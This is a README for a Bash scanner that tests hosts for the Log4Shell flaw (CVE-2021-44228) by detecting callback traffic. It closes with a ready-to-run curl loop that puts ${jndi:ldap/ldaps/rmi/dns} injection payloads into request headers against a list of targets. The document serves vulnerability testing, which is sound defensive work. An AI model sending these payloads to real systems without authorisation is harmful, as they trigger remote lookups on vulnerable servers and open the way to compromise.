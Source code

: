 # log4jScanner

 log4jScanner.sh is a BASH script to validate the vulnerability (CVE-2021-44228) of a given IP/URL.
 
 The script perfectly validates the existence of the vulnerability based on the *RETURN* traffic of 4 protocols ldap | ldaps | rmi | dns 
 
 Thus, the testing methedology is completely safe and non-invasive. 
 
 ## Understand The Attack Vector:
 
 First and foremost, I suggest reviewing the provided pcapng file in wireshark for a thorough understanding of the attack vector. 
 The pcapng file captured complete start-to-end traffic of a perfectly compromised target in lab environment.
 
 For your reference, 192.168.190.100 and 1389 are the attacker's IP/Port, and 192.168.190.44:8080 are the victim's (Tomcat) IP/Port. 
 
---
Note: Do not forget to add the visibility of SourcePort and DstinationPort in your wireshark setting's column preferences. 

---
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that Scanner-Return-Traffic-Port is reachable to the target. 

[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
```
## Download the script

```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]
```
## To automate testing of multiple IP/URLs, please feel free to modify the script accordingly.

```bash
Hint: While refering the log4jScanner.sh, consider modifying the script to include the following for-loop.

for i in $(cat /tmp/urls.txt); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````


